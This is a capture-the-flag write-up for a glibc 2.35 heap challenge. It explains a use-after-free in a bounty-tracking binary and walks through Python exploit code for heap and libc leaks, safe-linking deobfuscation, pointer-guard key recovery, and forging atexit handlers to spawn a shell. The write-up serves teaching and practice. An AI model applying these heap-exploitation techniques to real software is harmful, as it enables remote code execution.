




Difficulty: `hard`

The Frontier Board’s bounty registration service is the backbone of law and order in the Frontier Cluster, allowing citizens to post and track bounties on the most dangerous criminals, dead or alive. Our system is secure, efficient, and reaches every corner of the galaxy, ensuring that no outlaw can hide for long. The service protects both the identities of those issuing bounties and the integrity of the Board’s records. From petty thieves to high-profile fugitives, every threat to our corporate order is handled swiftly and decisively.

## Init

As most challenges we are given the binary, but also libraries used.
Thanks to the `ld-2.35.so` we know that we are dealing with newer libc.

Apart from these things we can check the protections:
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc'
    Stripped:   No
```

And we've got pretty much everything turned on.

## Reversing

The challenge is essentially another heap note. However we only have 3 operations available to us:
- Create
- View
- Delete


The missing copy operation greatly reduces the attack surface and our potential primitives.

As for the structures being allocated we essentially have 2 types:
```c
struct bounty {
    char * description;
    uint64_t bounty_amount;
    uint64_t description_size;
    uint8_t allocated;
    uint8_t alive_flag;
    uint16_t padding;
};
```

With the second type being the arbitrary data in the `description` field.

### Create

At first we are asked to set bounty amount and wanted alive flag. 
These are pretty much useless and we can consider them as padding.

Also the indexing is done automatically and we shall **exit** if we reach the maximum. The maximum is 49 chunks!

The interesting part begins with `description_size`:
```c

  printf("Description size: ");
  desc_size = 0;
  __isoc99_scanf("%lu",&desc_size);
  if (desc_size < 101) {

```

We are asked to input unsigned long (no negative side) with maximum value being 100.

This greatly influences the strategies used during exploitation development.

Afterwards the `bounty` chunk is allocated and setup. We are then asked to input data into `description`:
```c
    puts("Bounty description:");
    read(0,chunk->description_ptr,chunk->desc_size);
    Bounties[bounty_idx] = chunk;
```

The `read` call will not fill up the entire size we selected. Therefore we can input only a single byte and get away with it.

### View

At first we need to select the index (duh).

Afterwards the code will attempt to check for existance of the chunk by comparing to `nullptr`.

Then we check for `allocated` flag and if that is `true` then the `description` field is written out as string:
```c
    printf("\nBounty: %lu Zell Bars\nWanted alive: %s\nDescription: %s\n",
           Bounties[bounty_index]->bounty_amount,puVar1,Bounties[bounty_index]->description_ptr);
  }
```

### Delete

The deletion is straight forward, we just check for `allocated` flag and the description pointer being `NULL`:
```c
    else if ((Bounties[(int)bounty_index]->allocated == '\x01') &&
            (Bounties[(int)bounty_index]->description_ptr != (void *)0x0)) {
```

We then free the `description` and remove it from the chunk along. We also switch off the flag:
```c
    free(Bounties[(int)bounty_index]->description_ptr);
    Bounties[(int)bounty_index]->description_ptr = (void *)0x0;
    Bounties[(int)bounty_index]->allocated = '\0';
    free(Bounties[(int)bounty_index]);
```

## Vulnerability Research

Manual analysis is pretty straight forward.

Although to be honest with you guys, this took me quite some time to figure out and I instead went to deal with other challenges. Had to get used to it haha.

### Use After Free 

Just as the medium challenge we are dealing with nice Use After Free (UAF). This comes from the fact, that the pointer is not actually nulled out after being freed. This is called `dangling pointer`.

Thus once you create a chunk it will stay in the memory and can be dereferenced at any time. This can be attacker controlled with right heap order.

In order to fix this behaviour the program would need to zero out any dangling pointers:
```c
    free(Bounties[(int)bounty_index]->description_ptr);
    Bounties[(int)bounty_index]->description_ptr = (void *)0x0;
    Bounties[(int)bounty_index]->allocated = '\0';
    free(Bounties[(int)bounty_index]);

    -> Bounties[bounty_index] = 0;
```

*Delete function should also check for `nullptr` in the bounties.*

## Exploit Development

As with any memory corruption we first need to explore the bug possibilities and control it.
In order to do this we need to perform more heap grooming to successfully exploit it.
Apart from that we need to figure out atleast 2 leaks:
- Heap leak
- Libc leak
- Ld leak (For our case)

As for RCE keep in mind this is a newer libc. We don't have any hooking capabilities...
So what are the other options?

Well to answer it honestly.. during competion I completely forgot about the easiest way. Which would be Arbitrary Write -> Stack ROP.
Instead I got completely side tracked by the idea of overwriting `atexit` function handlers (Hadn't done that before).
And just like that I lost quite a lot of time. But I thought this is the perfect challenge for it and it was a new experience.

So for anyone reading this you can choose the easier way:
1. Acquire leaks - libc and heap only
2. Find `environ` value - stack leak in `libc`
3. Arbitrary write to replace return with one gadget
4. Profit

But my way is unfortunately a little bit more complicated:
1. Acquire leaks - libc, heap and ld
2. Use arbitrary read to get encrypted `dl_fini` and reverse it to get key (It's not really an ecryption per say, but whatever)
3. Forge custom exit handlers on the heap with ecnrypted `system` function pointer
4. Use arbitrary write to change `exit_funcs` pointer to our forged one
5. Cause an exit to execute code
6. Profit, but slower

### Controlling the bug

Let's first dive in to the actual bug and how could we abuse it.

Our goal is to replace the first `bounty` struct with arbitrarily controlled `description` from other allocation. This way we can abuse the functionalities of the program itself.

So in order to achieve this we need to create this heap layout:
```goat {height="600" caption="Controlling bug; init"}
+---------------------+              
|                     |              
|                     |              
|       Bounty 0      +-------------+
|                     |             |
|                     |             |
+---------------------+             |
                                    |
+---------------------+             |
|                     |             |
|       Bounty 0      |             |
|                     |<------------+
|     description     |              
|                     |              
+---------------------+              
                                     
+---------------------+              
|                     |              
|                     |              
|       Bounty 1      +-------------+
|                     |             |
|                     |             |
+---------------------+             |
                                    |
+---------------------+             |
|                     |             |
|                     |             |
|                     |             |
|       Bounty 1      |             |
|                     |             |
|     description     |<------------+
|                     |              
|                     |              
|                     |              
|                     |              
+---------------------+              
```

We need to allocate one bounty with the description with size of `bounty` struct.
Then the other must be bigger.

The reason for this is that chunks of smaller sizes are sorted into `tcache` bins. They are essentially single linked lists of several chunks which can be quickly replaced by another of that size.
These are also served in LIFO order.

Therefore let's imagine we delete first bounty..

The tcache bins will look like:
```
Tcache 0x30: Bounty 0 description <- Bounty 0
```

And now we free the second one:

```
Tcache 0x30: Bounty 1 <- Bounty 0 <- Bounty 0 description
Tcache 0x60: Bounty 1 description
```

In this case our next allocation would take the first chunk and if the `descrption` is the same size it would take place on `Bounty 0`

Let's illustrate this:
```goat {height="600" width="400" caption="Controlling bug; overwrite"}
+---------------------+                  
|                     |                  
|       Bounty 2      |                  
|                     |<----------------+
|     description     |                 |
|                     |                 |
+---------------------+                 |
                                        |
+---------------------+                 |
|                     |                 |
|                     |                 |
|     Freed chunk     |                 |
|                     |                 |
|                     |                 |
+---------------------+                 |
                                        |
+---------------------+                 |
|                     |                 |
|                     |                 |
|       Bounty 2      +-----------------+
|                     |                  
|                     |                  
+---------------------+                  
                                         
+---------------------+                  
|                     |                  
|                     |                  
|                     |                  
|                     |                  
|     Freed chunk     |                  
|                     |                  
|                     |                  
|                     |                  
|                     |                  
|                     |                  
+---------------------+                  
```

And just like that we can overwrite `bounty` structure which can be accessed by the dangling pointer left during deletion.

### Primitives

Let's consider what can we do with our current bug...

#### Bounty leak

The most obvious is that we can actually read the `description` of our new bounty. We need to keep in mind that atleast one byte will be overwritten, but that is not a problem as it is predictable in our case.

In this challenge the chunk we got assigned is also freed. And that means the `fd` and `bk` are populated. These replace the original data left behind.

But these values are different from the ones in unsorted bins. They only contain heap addresses. And most importantly in this libc version we have something called `pointer mangling`. Which is a mitigation added to combat `fd` overwrites (without any leaks).

The pointer to a single linked list is obfuscated using this formula:
`Ptr = (L >> 12) ^ P`

L = Storage Location
P = Current `fd` pointer

*Much more detailed version for this can be found [here](https://maxwelldulin.com/BlogPost/Analysis-Malloc-Protections-on-Singly-Linked-Lists)*

And it all boils down to how to defeat this? Can we get original pointer back? 
Yes if the L is on the same position as P. Which in this case it is.

*There are several POCs available online...*

And thus we are capable of getting stable heap leak. The first byte is predictable, therefore it's not a problem.

#### Arbitrary Read

Of course with the description being arbitrarily controlled by us we can input anything we like into the entire structure.
Changing up fields like `description` and `allocated` is not a problem as long we know where to point it. Then it's possible to utilize the program's options to do the hard work for us.

#### Arbitrary Free

Following the same principles as with arbitrary read, we can just as easily free any location we see fit.

#### Almost Arbitrary Write 

Eventually we will need to write to the `exit_funcs` pointer. This means we need to figure out a way to somehow write data.

Probably the easiest way to deal with this is to overlap 2 chunks and free them. This way we can overwrite a chunk's `fd` to point into arbitrary location.

The main idea behind can be shown using this diagram:
```goat
                     Normal Free                 Arbirary Free              Allocate New Chunk                
                                                                                                              
+----------------------+     +----------------------+    +----------------------+     +----------------------+
|                      |     |   Legitimate chunk   |    |   Legitimate chunk   |     |                      |
|   Legitimate chunk   +---->|                      +-+  |                      +---->|       New Chunk      |
|                      |     |         Freed        | |  |         Freed        |     |                      |
+----------------------+     +----------------------+ |  +----------------------+     +----------------------+
|                      |     |                      | |  |                      |     |  AAAAAAAAAAAAAAAAAA  |
|        Padding       |     |   FD            BK   | |  |   FD            BK   |     |  AAAAAAAAAAAAAAAAAA  |
+----------------------+     +----------------------+ |  +----------------------+     +----------------------+
| Forged chunk header  |     | Forged chunk header  | |  | Forged chunk header  |     |  AAAAAAAAAAAAAAAAAA  |
+----------------------+     +----------------------+ +->|         Freed        |     |  AAAAAAAAAAAAAAAAAA  |<-- Still Freed
|                      |     |                      |    +----------------------+     +----------------------+
|        Padding       |     |        Padding       |    |   FD            BK   |     |  Custom FD           |
|                      |     |                      |    |                      |     |                      |
+----------------------+     +----------------------+    +----------------------+     +----------------------+
```

**But** it's important to note here, that along with `pointer mangling` mitigation we also need to deal with chunk alignment mitigation. On 64-bit machines every chunk must be aligned to 16 bytes. Therefore we may not be able to overwrite just the `exit_funcs` pointer alone, but something else aswell.

### Leaking heap

We start off by leaking the heap address, which is needed for further exploitation (*We also create `/bin/sh` chunk for later*):
```python
create(b"6969", b"8", b"/bin/sh\x00") 

create(b"6969", b"32", b"A" * 32)
create(b"6969", b"64", b"A" * 64)

delete(b"1")
delete(b"2")

create(b"1337", b"32", b"\x01")
```

This way we get back an obfuscated pointer with first byte overwritten. Let's get the real heap:
```python
def deobfuscate(ptr):
	mask = 0xfff << 52
	while mask:
		v = ptr & mask
		ptr ^= (v >> 12)
		mask >>= 12
	return ptr

heap_leak_deobfuscated = deobfuscate(heap_leak)

heap_leak_deobfuscated = (heap_leak_deobfuscated & ~0xff) | 0x10
```

Once we get the real deal we can just remove the first byte and OR back the original one which is predictable.

### Leaking Libc

For libc things get a little bit more complicated.
We do have a size limit on the `description` chunks. This limit is way below the needed to put a chunk into unsorted bin.

How can we deal with this?
Well we don't need the allocator to create that big of a chunk for us. We can just forge our custom one!

To illustrate the idea:
```goat {height="600" caption="Leaking libc; unsorted bin forgery"}
+----------------------+
|                      |
|                      |
|                      |
|  Forged Chunk Header |
+----------------------+
+----------------------+
|                      |
|                      |
|                      |
|          A           |
+----------------------+
+----------------------+
|                      |
|                      |
|                      |
|          B           |
+----------------------+
+----------------------+
|                      |
|                      |
|                      |
|          C           |
+----------------------+
+----------------------+
|                      |
|                      |
|                      |
|          D           |
+----------------------+
+----------------------+
|                      |
|                      |
|                      |
| Forged Chunk Footer  |
+----------------------+
```

We will allocate many chunks after each other to span a big area.
In the first chunk we forge a custom chunk header which matches the one that can be placed into unsorted bin.
And at the bottom we must do the same.

To actually `free` it must have several valid flags:
- Correct alignment - 16 bytes
- Is the next chunk valid - Current chunk + size - 8 (for header)
- Does previous size match the size - Current chunk + size - 16

And for these checks to pass we need to make a custom footer and header.

To get to work I fuzzed the allocations and just calculated from the very first one where I need to land.

I am using:
```python
size = 0x460
create(b"1337", b"96", b"\x90" * 8 + p64(size | 1))

for i in range(6):
	create(b"9999", b"96", b"\x99" * 96)

create(b"1337", b"96", p64(size) + p64(0x21) + (p64(0x1337) * 4) )
```

We prepare valid chunk header inside the first chunk, which has a size of `0x460`. Then we span some other dummy chunks and finally we create another forged valid chunk.

In order to free this arbitrarily created chunk we must utilize the arbitrary free primitive which we established earlier.

```python
forged_heap_chunk = 0xd0 + heap_leak_deobfuscated
log.info("Forged chunk " + hex(forged_heap_chunk))
arbitrary_free(forged_heap_chunk)
```

At this point we have freed it successfully, we just have to read the pointers back to us. This is easily done by our arb read:
```python
arbitrary_read(forged_heap_chunk + 0x30)
```

*The offsets are arbitrarily chosen by looking it through debugger.*

The allocator can and will utilize the unsorted bin, which means the layout may shift a little bit.

And with that we have got the libc leaks done!

### Defeating pointer encryption

At this stage we have to find a final leak, which is an encrypted pointer. These are not hard to come by, but since we will be replacing `exit_handlers` we can stick to that.

There are few functions which are called during exit. However the first on is `dl_fini`, which is an unexported symbol (ugh). 

We are capable of finding the encrypted version pretty easily:


In the picture you can see we first dereference `exit_funcs` which points into the second chunk of data.
There the `297de3007a4ab989` entry is our pointer in it's encrypted form.

So what is this "encryption"...
Well this was very well documented in fair amount of blog posts over the years - [like this one](https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html).

In the summary it boils down to a random key which is setup during initialization of the process. This key is not really obtainable by any easy means, because it's allocated in `TCB`.
In GDB it's easy to find it, as `TCB` is in `fs` register. To obtain it we can utilize:
```
x/gx $fs_base+0x30
```

Which is `0x5cc4eba1ef213d65` in our example.

In the blogpost mentioned above we can see the decryption and encryption method:
```python
ror (ptr_encoded, 0x11, 64) ^ _dl_fini
```

It's essentially just rotation and XOR which is reversible (It needs to be of course).

Since at this moment we know the key in the example we can supply:
```python
hex(ror(0x297de3007a4ab989, 0x11, 64) ^ 0x5cc4eba1ef213d65)
```

This points into `0x7f1f1ea10040`. Let's check it out:


We are pointed into an unknown function. This should supposedly be `dl_fini`. And it should be part of `ld.so` which we can check out in Ghidra. We just need to find the offset:
```
0x7f1f1ea10040 - 0x7f1f1ea0a000 = 0x6040
```



As we can see the instruction match the ones from GDB. Which means we found `dl_fini` symbol.

**However** this also means we need to leak `ld.so` somehow.
Fortunately this is very is, since libc stores `ld.so` functions inside `GOT`. Therefore it's up to us which function we want to leak and offset it.
 

So let's get back to our exploit. We first leak `ld.so`:
```python
ld_leak_got = libc + 0x219010
log.info("ld_leak_got: " + hex(ld_leak_got))

arbitrary_read(ld_leak_got)
```

Nothing new here.

Now we read back the encrypted `dl_fini` pointer using the same primitive:
```python
exit_handlers_first_func = libc + 0x21af18
log.info("exit_handlers_first_func: " + hex(exit_handlers_first_func))

arbitrary_read(exit_handlers_first_func)
```


Finally we reverse the equation and get back our encryption key:
```python
key = ror(dl_fini_encrypted, 0x11, 64) ^ dl_fini
```

So at this point we can create arbitrary encryption pointers!

### Forging new exit functions

At this we just need to create custom `exit_funcs` structure on the heap which will be used in order to call arbitrary functions.
Let's dive into the structure (taken from blogpost above):
```c
enum
{
  ef_free, /* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};

struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union
      {
 void (*at) (void);
 struct
   {
     void (*fn) (int status, void *arg);
     void *arg;
   } on;
 struct
   {
     void (*fn) (void *arg, int status);
     void *arg;
     void *dso_handle;
   } cxa;
      } func;
  };
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };
```

We need to forge custom `exit_function_list`. As for the first entry it will be NULL. `idx` must be 1, since we only will be executing one function. Then we can chooese arbitrary function "flavor". Here we would like to choose `ef_cxa` as it uses a random pointer as it's first argument. This mimics the `system` API.


This will looks like this:
```python
atexit_array_entry = p64(0) + p64(1) + p64(4)     + encrypt(system, key) + p64(bin_sh_chunk) + p64(0)

create(b"2", b"56", atexit_array_entry)
```

### Writing into `exit_funcs`

As for the final stage we are pretty much done with all the leaks and grooming. We just have to use our arbitrary write primitive to point `exit_funcs` into our new forged one.
```python
create(b"5", b"96" ,b"A" * 24 + p64(0x31) + b"O" * 16)
delete(bytes(str(cur_index),'ascii'))
```

We create custom chunk header with `0x30` bin which is in chunk of size `0x60`.
This is then freed using abitrary free (Calculated in GDB once again):
```python
freed_chunk = heap_leak_deobfuscated + 0x1f0 + 0x60

arbitrary_free(freed_chunk)
```

At this point the bin of `0x60` holds the overlapping chunks. And the next allocation allows us to forge custom free chunk.
In order to utilize it we need to reconstruct the original chunk. Which is easy.
But we must not forged that there is `pointer mangling`. Which means we need to encode future `fd`:
```python
obfuscated_pointer_exit_funcs = (exit_funcs - 8) ^ (heap_leak_deobfuscated >> 12)
```

We subtract 8, because in our version of libc, the pointer is not aligned on 16 bytes boundary.
Then we XOR it using our deobfuscated leak shifted by 12 bits.

Finally our next allocation into `0x30` bins will replace the forged chunk and put `exit_funcs` pointer as next chunk to be served.
So selecting the same size leads our `description` to write into that location:
```python
repair_language_bs = libc + 0x1dd1a8

create(b"16", b"32", p64(repair_language_bs) + p64(atexit_forged_ptr))
```

*The repair_language is just me fixing the first pointer we shall be overwriting.*

### Popping the shell

In order to pop a shell, we need to somehow exit.
This is pretty straight forward as allocating over the limit will call exit for us:
```python
while(True):
	if(indexer == 50):
		break

	create(b"1337", b"16", p64(0xdeadbeef))

p.sendlineafter(b"> ",b"1")
```



Very nice challenge to try `atexit` technique on:)!

## Attachment

- [Exploit script](dstr.py)
- [Challenge files](pwn_dead_or_alive.zip)